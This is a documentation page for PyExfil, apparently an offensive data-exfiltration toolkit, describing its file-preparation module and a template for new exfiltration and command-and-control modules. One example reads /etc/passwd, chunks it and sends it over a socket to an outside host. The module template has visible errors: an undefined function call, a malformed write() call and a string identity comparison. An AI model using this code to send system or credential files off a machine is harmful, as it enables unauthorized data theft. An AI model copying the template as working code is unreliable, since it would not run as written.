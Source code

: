 # Documentation | PyExfil

## Shared Abilities
Please notice that although we have tried to keep this a collection of relatively separated stand alone modules so that converting them to static binaries for various operating systems would be as easy as possible, some things we have decided to turn into modules that would be shared across the board while attempting to keep is as depency free as possible. Such a component for now is `pyexfil/includes/prepare`. This module contains the methods of converting files (compressing, encrypting, encoding and splitting) into chunks ready to be sent or decoded.

You can use it in the following way:

```python
from pyexfil.includes.prepare import PrepFile, RebuildFile, DecodePacket

proc = PrepFile('/etc/passwd', kind='binary') # will yield a dictionary

# Send the data over
sock = socket.socket()
sock.connect(('google.com', 443))
for i in proc['Packets']:
    sock.send(i)
sock.close()

# Rebuilding the data:
conjoint = []
for packet in proc['Packets']:
    b = DecodePacket(packet)
    conjoint.append(b)

# Verify and rebuild the file:
print RebuildFile(conjoint)
```

## Calling Convention
In theory we wish each module to have a convention call to make it easier to work with. Some methods make it easier while some make it more difficult. For that, here is a template on how we wish for it to be. Please bear in mind some modules will not fall into place. Use your best judgment.

1. Preparing file/data for exfiltration should be done as in [this section]("#shared-abilities").
2. Place the package folder under the right location. For example; short communication (C&C) under `Comm`, exfiltration over network communication under `network` etc.
3. Create an `__init__.py` under that folder.
4. For broadcasting purposes use the function name `Send` that will wrap everything up.
5. For receiving purposes use `Broker` function to contain the function. If possible, set it up in a threading mode as to return back.
6. * if possible add a call back function for when data arrives.

Here's an `__ini__.py` example file:

```python
from pyexfil.includes.prepare import PrepFile, RebuildFile, DecodePacket

def _send_packet(host, port, data, counter):
  open('/dev/null', 'w').write(data, counter)

def _testCallBack(pkt):
  print("Me got a pkt! [%s]" % len(pkt))

def Send(fname, password, host, port):
  proc = PrepFile(fname, kind='binary', enc_key=password, max_size=1024)
  i = 0
  for p in proc['Packets']:
    _send(host, port, p, i)
    i += 1
  return True

class Broker():
  def __init__(self, key, retFunc=_testCallBack):
    self.key = key
    self.callBack = retFunc

  def _parse(self, pkt):
    if pkt is 'A Good Boy':
      self.callBack(pkt)
    else:
      """ These are not the packets you're looking for """
      pass

  def Listen(self):
    while True:
      sniff(ptn=self._parse, filter='stam', store=0, count=0)
```
